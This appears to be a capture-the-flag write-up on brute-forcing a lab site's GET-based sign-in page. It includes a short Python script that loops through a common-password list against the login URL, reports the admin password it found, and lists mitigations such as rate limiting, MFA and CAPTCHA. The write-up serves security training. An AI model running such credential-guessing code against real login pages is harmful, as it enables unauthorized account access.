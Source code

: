 # BRUTE FORCE ATTACK ON SIGN-IN PAGE

## IDENTIFY THE VULNERABILITY

Upon examination, we discovered that the login page, accessible at http://192.168.56.2/?page=signin, allowed an unlimited number of login attempts, and the authentication process was handled through a GET request.

## EXPLOIT THE VULNERABILITY

We executed a brute force attack by repeatedly attempting unauthorized logins using a Python script and a list of commonly used passwords. The script utilized the requests library to dispatch multiple GET requests to the login page, each time featuring a distinct password. Then, it checked the response to determine if the login was successful. If the wrong answer image was not present in the response, the login was considered successful.

```python
def login(username: str, password: str) -> bool:
    # Build login url
    url = URL + "&username=" + username + "&password=" + password + "&Login=Login#"
    # Try to login
    content = get_request(url)
    if WRONG_ANSWER_IMG in content.decode():
        return False
    # If the wrong answer image is not present, the login was successful
    return True

def test_common_passwords(username: str) -> None:
    # Read passwords list from an external file
    with open(PASSWORDS_FILE_PATH, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            result = login(username, password)
            if (result == True):
                return
```

Ultimately, we were able to gain access to the admin account by guessing the password "shadow". We can login with any username. This allowed us to access the flag.

## INFORMATION ON BRUTE FORCE ATTACKS

Brute force is a hacking technique used for guessing the user by trying various possible login credentials. Brute-force involves trying thousands of login credentials repeatedly in a short time span until the attacker succeeds.
In regards to authentication, when no password policy is in place an attacker can use lists of common username and passwords to brute force a username or password field until successful authentication.

## PATCH THE VULNERABILITY

To mitigate the risks associated with brute force attacks, consider the following measures:

    1. Switch to POST Request: Prefer using a POST request for login instead of a GET request. This ensures that credentials are sent in the HTTP message body rather than the URL.

    2. Implement Password Complexity:
        - Mix uppercase and lowercase letters.
        - Use alphanumeric combinations.
        - Incorporate special characters for added security.

    3. Limit Login Attempts:
        - Restrict the number of login attempts.
        - Implement IP blocking for repeated failures.
        - Notify users and block accounts after a certain number of unsuccessful attempts.

    4. Require Multi-Factor Authentication (MFA):
        - Enforce the use of two-factor authentication (2FA).
        - 2FA adds an extra layer of security by requiring users to provide two different authentication factors.

    5. Utilize CAPTCHA:
        Implement CAPTCHA to differentiate between human and automated login attempts.

    6. Deploy a Web Application Firewall (WAF):
        Use a WAF to filter and monitor HTTP traffic, providing an additional layer of protection.

    7. Introduce Time Delay:
        Implement time delays between login attempts to slow down brute force attacks.

Implementing these security measures collectively strengthens the defense of the sign-in page against brute force attacks.

## SOURCES

https://www.getastra.com/blog/cms/prevent-brute-force-attack-in-php/
